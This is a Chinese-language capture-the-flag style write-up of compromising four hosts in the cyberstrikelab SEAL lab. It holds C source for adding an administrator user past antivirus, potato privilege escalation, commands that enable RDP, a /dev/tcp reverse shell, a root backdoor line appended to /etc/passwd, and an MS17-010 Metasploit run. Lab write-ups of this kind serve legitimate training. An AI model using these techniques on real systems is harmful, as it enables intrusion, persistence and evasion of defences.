# cyberstrikelab—SEAL-先知社区

> **来源**: https://xz.aliyun.com/news/18474  
> **文章ID**: 18474

---

这台靶机前期极其抽象，出题人把shiro写成shrio了，2月份开局一个tomcat看了好久，后面好像是无意中我也输入错了还是啥情况爆出来的，后面和官方反馈也是改了，前段时间上课挺忙的，假期打着玩玩。



# 第一台机器

目录扫描发现有一个shiro

<http://172.20.20.148:8080/shiro/>

直接工具梭哈



发现是低权限，直接注入内存马



<http://172.20.20.148:8080/shiro/favicondemo.ico>



发现存在Defender和火绒，给土豆做一下免杀

<https://github.com/0xb11a1/yetAnotherObfuscator>

这里两个思路，给客户端做一下免杀直接上线或者开3389添加用户。

## 方法一

这里直接用vshell的客户端，好像自带免杀效果





```
BadPotato.exe._obf.exe "v8077.exe"
```



## 方法二

这里net user add做了限制要bypass

<https://payloads.cn/2021/1230/bypass-av-add-user.html>

```
#ifndef UNICODE
#define UNICODE
#endif
#pragma comment(lib, "netapi32.lib")
#pragma comment(lib, "advapi32.lib")

#include <stdio.h>
#include <windows.h> 
#include <lm.h>
#include <sddl.h>

// 检查程序是否以管理员权限运行
BOOL IsAdmin() {
    BOOL isAdmin = FALSE;
    SID_IDENTIFIER_AUTHORITY ntAuthority = SECURITY_NT_AUTHORITY;
    PSID adminGroup;
    
    if (AllocateAndInitializeSid(&ntAuthority, 2, SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS, 0, 0, 0, 0, 0, 0, &adminGroup)) {
        
        if (!CheckTokenMembership(NULL, adminGroup, &isAdmin)) {
            isAdmin = FALSE;
        }
        FreeSid(adminGroup);
    }
    return isAdmin;
}

// 错误代码转文本描述
const wchar_t* GetErrorMessage(DWORD errorCode) {
    LPWSTR messageBuffer = NULL;
    FormatMessageW(
        FORMAT_MESSAGE_ALLOCATE_BUFFER | 
        FORMAT_MESSAGE_FROM_SYSTEM | 
        FORMAT_MESSAGE_IGNORE_INSERTS,
        NULL,
        errorCode,
        MAKELANGID(LANG_NEUTRAL, SUBLANG_DEFAULT),
        (LPWSTR)&messageBuffer,
        0, NULL);
    
    const wchar_t* result = messageBuffer ? messageBuffer : L"未知错误";
    LocalFree(messageBuffer);
    return result;
}

int wmain(int argc, wchar_t* argv[])
{
    // 检查是否有管理员权限
    if (!IsAdmin()) {
        fwprintf(stderr, L"错误: 此操作需要管理员权限。请右键点击程序并选择"
                        L""以管理员身份运行"。
");
        return 1;
    }

    USER_INFO_1 ui;
    DWORD dwLevel = 1;
    NET_API_STATUS nStatus;

    if (argc != 3)
    {
        fwprintf(stderr, L"用法: %s <用户名> <密码>
", argv[0]);
        return 1;
    }

    // 设置用户信息
    ui.usri1_name = argv[1];
    ui.usri1_password = argv[2];
    ui.usri1_priv = USER_PRIV_USER;
    ui.usri1_home_dir = NULL;
    ui.usri1_comment = NULL;
    ui.usri1_flags = UF_SCRIPT;
    ui.usri1_script_path = NULL;

    // 创建用户
    fwprintf(stdout, L"正在尝试创建用户 '%s'...
", argv[1]);
    nStatus = NetUserAdd(NULL, dwLevel, (LPBYTE)&ui, NULL);

    if (nStatus == NERR_Success) {
        fwprintf(stdout, L"用户 '%s' 已成功创建
", argv[1]);
        
        // 将用户添加到管理员组
        fwprintf(stdout, L"正在尝试将用户 '%s' 添加到管理员组...
", argv[1]);
        LOCALGROUP_MEMBERS_INFO_3 account;
        account.lgrmi3_domainandname = argv[1];
        
        NET_API_STATUS groupStatus = NetLocalGroupAddMembers(
            NULL, L"Administrators", 3, (LPBYTE)&account, 1);
            
        if (groupStatus == NERR_Success) {
            fwprintf(stdout, L"成功: 用户 '%s' 已添加到管理员组
", argv[1]);
        } else if (groupStatus == ERROR_MEMBER_IN_ALIAS) {
            fwprintf(stdout, L"注意: 用户 '%s' 已经是管理员组成员
", argv[1]);
        } else {
            fwprintf(stderr, L"错误: 添加到管理员组失败 (错误代码: %lu - %s)
", 
                groupStatus, GetErrorMessage(groupStatus));
        }
    } else {
        fwprintf(stderr, L"错误: 创建用户失败 (错误代码: %lu - %s)
", 
            nStatus, GetErrorMessage(nStatus));
            
        // 检查常见的密码策略错误
        if (nStatus == ERROR_PASSWORD_RESTRICTION) {
            fwprintf(stderr, L"提示: 密码可能不符合系统密码策略要求。
"
                            L"      密码通常需要: 长度至少8位，包含大小写字母、数字和特殊字符。
");
        }
    }

    return nStatus == NERR_Success ? 0 : 1;
}

// 显式定义控制台入口点
int main(int argc, char* argv[])
{
    int wargc = 0;
    LPWSTR* wargv = CommandLineToArgvW(GetCommandLineW(), &wargc);
    
    if (wargv == NULL) {
        fprintf(stderr, "解析命令行参数失败
");
        return 1;
    }
    
    int result = wmain(wargc, wargv);
    LocalFree(wargv);
    return result;
}
```

编译

```
gcc 1.c -o bypassuseradd.exe -lnetapi32
```



上线vshell可以直接执行开3389端口

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

但是用土豆开3389端口不能直接这样执行，因为引号会受到影响

写一个bat

```
@echo off
:: 开启远程桌面连接
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
:: 如果防火墙开启，则需要允许3389端口通过防火墙
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
echo Remote Desktop has been enabled.
pause
```

执行

```
BadPotato.exe._obf.exe "3389.bat"
```

然后这里用Windows的mstsc连接有问题（黑屏），用kali的rdesktop连接就可以。



上去给Defender关了，火绒卸载

上线CS





抓取到Administrator明文密码为Shrio@cslab

发现是双网卡机器



上传fscan扫描一下

```
172.20.30.152:8009 open
172.20.30.152:8080 open
172.20.30.198:3306 open
172.20.30.199:1433 open
172.20.30.199:445 open
172.20.30.152:445 open
172.20.30.199:139 open
172.20.30.152:139 open
172.20.30.199:135 open
172.20.30.152:135 open
172.20.30.198:80 open
172.20.30.198:22 open
[*] NetInfo 
[*]172.20.30.199
   [->]WIN-P2EUDKIN1IG
   [->]172.20.30.199
   [->]10.0.0.8
[*] NetInfo 
[*]172.20.30.152
   [->]WIN-OB270G15OFL
   [->]172.20.20.148
   [->]172.20.30.152
[*] WebTitle http://172.20.30.152:8080 code:200 len:11432  title:Apache Tomcat/8.5.19
[*] NetBios 172.20.30.199   WORKGROUP\WIN-P2EUDKIN1IG           Windows Server 2016 Standard 14393
[*] WebTitle http://172.20.30.198      code:200 len:3099   title:JTBC(3&#46;0)
[*] NetBios 172.20.30.152   WIN-OB270G15OFL      Windows Version 10.0 Build 17763
```

做代理访问内网机器，可以直接用vshell做代理，但是考虑到可能是多层内网，vshell只会做两层代理，还是用stowaway

```
windows_x64_admin.exe -l 172.16.233.2:9000 -s 123
windows_x64_agent.exe -c 172.16.233.2:9000 -s 123 --reconnect 8
```



使用proxifier走socks代理

挨个设置进程好麻烦，直接开一个虚拟机整台机器的流量走代理，后面是多层代理，设置代理链



# 第二台机器



发现是jtbc cms



目录扫描发现后台地址

<http://172.20.30.198/console/>

弱口令cslab:cslab进去后台

直接上传文件即可，哥斯拉连接即可

发现是低权限，找一下具有suid权限的文件

```
/xp/www/ > find / -user root -perm -4000 -print 2>/dev/null
/usr/bin/find
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/chage
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/sudo
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

find提权

```
find `which find` -exec whoami \;
```

上传nc到第一台机器上面，反弹shell

```
find /etc/passwd -exec bash -ip >& /dev/tcp/172.20.30.152/6677 0>&1 \;
```

写入

```
echo "r00t:roK20XGbWEsSM:0:0:x:/root:/bin/bash" >> /etc/passwd
```

ssh连接成功



# 第三台机器

还有172.20.30.199没打，全端口扫一下

```
[root@localhost ~]# ./fscanPlus_amd64 -h 172.20.30.199 -p 1-65535

  ______                   _____  _           
 |  ____|                 |  __ \| |          
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___ 
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/   
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
172.20.30.199:139 open
172.20.30.199:135 open
172.20.30.199:445 open
172.20.30.199:1433 open
172.20.30.199:5985 open
172.20.30.199:47001 open
172.20.30.199:49667 open
172.20.30.199:49666 open
172.20.30.199:49665 open
172.20.30.199:49664 open
172.20.30.199:49670 open
172.20.30.199:49669 open
172.20.30.199:49668 open
[*] alive ports len is: 13
start vulscan
[*] NetInfo 
[*]172.20.30.199
   [->]WIN-P2EUDKIN1IG
   [->]172.20.30.199
   [->]10.0.0.8
[*] NetBios 172.20.30.199   WORKGROUP\WIN-P2EUDKIN1IG           Windows Server 2016 Standard 14393
[*] WebTitle http://172.20.30.199:5985 code:404 len:315    title:Not Found
[*] WebTitle http://172.20.30.199:47001 code:404 len:315    title:Not Found
已完成 13/13
[*] 扫描结束,耗时: 1m19.337988956s
[root@localhost ~]#
```

发现只有1433端口能打，前面发现172.20.30.198还有一个3306端口，猜测可能密码复用，去翻一下账号密码。

## 方法一

/xp/www/common/incfiles/<font style="color:rgb(18, 18, 18);">const.php</font>



## 方法二

登录小皮面板





拿到密码登录成功。



有defender，上传免杀的土豆开启3389端口添加用户，这里也要bypass net user add，参考第一台机器的方法二即可。

也可以直接用vhshell的正向客户端上线，那个本身就具有免杀效果。

发现是双网卡机器



上传fscan扫一下

```
C:\Users\Public>fscanPlus_amd64.exe -h 10.0.0.8/24

  ______                   _____  _
 |  ____|                 |  __ \| |
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 10.0.0.9        is alive
(icmp) Target 10.0.0.8        is alive
[*] Icmp alive hosts len is: 2
10.0.0.9:8172 open
10.0.0.9:808 open
10.0.0.9:88 open
10.0.0.8:1433 open
10.0.0.8:445 open
10.0.0.9:445 open
10.0.0.9:443 open
10.0.0.8:139 open
10.0.0.9:139 open
10.0.0.8:135 open
10.0.0.9:135 open
10.0.0.9:81 open
10.0.0.9:80 open
[*] alive ports len is: 13
start vulscan
[*] NetInfo
[*]10.0.0.9
   [->]WIN-3UO9KLE0PIS
   [->]10.0.0.9
[+] MS17-010 10.0.0.9   (Windows Server 2016 Standard 14393)
[*] NetBios 10.0.0.9        [+] DC:WIN-3UO9KLE0PIS.cyberstrikelab.com      Windows Server 2016 Standard 14393
[*] NetInfo
[*]10.0.0.8
   [->]WIN-P2EUDKIN1IG
   [->]172.20.30.199
   [->]10.0.0.8
[*] WebTitle http://10.0.0.9:81        code:403 len:1157   title:403 - 禁止访问: 访问被拒绝。
[*] WebTitle https://10.0.0.9:8172     code:404 len:0      title:None
[*] WebTitle http://10.0.0.9           code:403 len:0      title:None
[*] WebTitle https://10.0.0.9          code:500 len:3367   title:运行时错误
[*] NetBios 10.0.0.8        WIN-P2EUDKIN1IG      Windows Server 2016 Standard 14393
已完成 13/13
[*] 扫描结束,耗时: 31.1836071s
```

搭建代理，发现只有两层代理，放弃走stowaway，直接走vshell



# 第四台机器

直接打永恒之蓝，感觉又是非预期....

```
proxychains msfconsole
use auxiliary/admin/smb/ms17_010_command
set RHOSTS 10.0.0.9
set COMMAND type C:\flag.txt
run
```


